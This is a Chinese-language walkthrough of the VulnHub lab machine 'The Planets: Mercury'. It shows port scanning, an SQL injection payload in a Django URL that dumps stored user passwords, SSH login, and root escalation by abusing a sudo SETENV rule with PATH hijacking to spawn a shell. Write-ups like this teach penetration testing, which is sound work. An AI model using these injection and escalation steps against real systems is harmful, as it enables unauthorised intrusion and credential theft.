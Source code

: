 # The Planets: Mercury

2024-6-12 https://www.vulnhub.com/entry/the-planets-mercury,544/

difficulty: Easy

## IP

192.168.5.38

## Scan

Open Port -> 22,8080

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c824ea2a2bf13cfa169465bdc79b6c29 (RSA)
|   256 e808a18e7d5abc5c66164824570dfab8 (ECDSA)
|_  256 2f187e1054f7b917a2111d8fb330a52a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Date: Tue, 11 Jun 2024 14:43:28 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html
|     X-Frame-Options: DENY
|     Content-Length: 2366
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta http-equiv="content-type" content="text/html; charset=utf-8">
|     <title>Page not found at /nice ports,/Trinity.txt.bak</title>
|     <meta name="robots" content="NONE,NOARCHIVE">
|     <style type="text/css">
|     html * { padding:0; margin:0; }
|     body * { padding:10px 20px; }
|     body * * { padding:0; }
|     body { font:small sans-serif; background:#eee; color:#000; }
|     body>div { border-bottom:1px solid #ddd; }
|     font-weight:normal; margin-bottom:.4em; }
|     span { font-size:60%; color:#666; font-weight:normal; }
|     table { border:none; border-collapse: collapse; width:100%; }
|     vertical-align:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Tue, 11 Jun 2024 14:43:28 GMT
|     Server: WSGIServer/0.2 CPython/3.8.2
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Content-Length: 69
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     Hello. This site is currently in development please check back later.
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

直接看 8080 端口，WSGIServer/0.2 CPython/3.8.2

gobuster 没有爆出可利用路径，打开主页链接，源码也没有详细信息，在首页链接后添加内容，发现出现错误：

```
http://192.168.5.38:8080/1

Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

[name='index']
robots.txt [name='robots']
mercuryfacts/
The current path, 1, didn't match any of these.
```

发现有几个预定义的路径 http://192.168.5.38:8080/mercuryfacts/ 这个路径有意思。

点开其中第一个链接 http://192.168.5.38:8080/mercuryfacts/1/ 显示内容：

```
Fact id: 1. (('Mercury does not have any moons or rings.',),)
```

修改 1 变为 2，发现显示的内容也随之变化，这里可能存在模板注入，前面发现了是 Django，找到它的模板注入的 exp

`http://192.168.5.38:8080/mercuryfacts/{{ 7*7 }}/` 这里直接页面上出现报错信息，发现这里有 sql 报错：

```
SELECT fact FROM facts WHERE id = ' + fact_id
```

应该是存在 sql 注入，可以把全部信息爆出：

```
http://192.168.5.38:8080/mercuryfacts/-1%20or%201=1--%20-/
```

通过一些列操作，找到数据库名为 mercury, 有 2 个数据表: facts,users 看样子我们需要的内容就在 users 表中，查询 users 表的数据列 id,password,username，查询数据，得到 username 和 password:

```
john:johnny1987
laura:lovemykids111
sam:lovemybeer111
webmaster:mercuryisthesizeof0.056Earths
```

将得到的用户名和密码，用 crackmapexec 爆破 ssh 服务，最后发现 webmaster:mercuryisthesizeof0.056Earths 可以登陆，进行登陆。

发现 user flag：

```
webmaster@mercury:~$ cat user_flag.txt
[user_flag_8339915c9a454657bd60ee58776f4ccd]
```

在文件夹 mercury_proj 下发现提示信息：

```
webmaster@mercury:~/mercury_proj$ cat notes.txt
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

发现了另外一个凭据 linuxmaster:mercurymeandiameteris4880km 尝试切换到这个用户

sudo -l 发现:

```
(root : root) SETENV: /usr/bin/check_syslog.sh
```

查看权限：

```
linuxmaster@mercury:~$ ls -al /usr/bin/check_syslog.sh
-rwxr-xr-x 1 root root 39 Aug 28  2020 /usr/bin/check_syslog.sh

linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

sudo -u root /usr/bin/check_syslog.sh 可以查看 /var/log/syslog，但是 tail 没有使用绝对路径，并且 sudo 中有 SETENV ，相当于可以设定 env 进行提权。

SETENV 会允许用户禁用 env_reset 选项，允许 sudo 使用当前用户命令行中重置环境变量:

```
cp /usr/bin/vim /tmp/tail
export PATH=/tmp:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
:!/bin/bash
```

这样就得到了 root 权限：

```
root@mercury:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@mercury:/tmp# cd /root
root@mercury:~# ls
root_flag.txt
root@mercury:~# cat root_flag.txt
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```
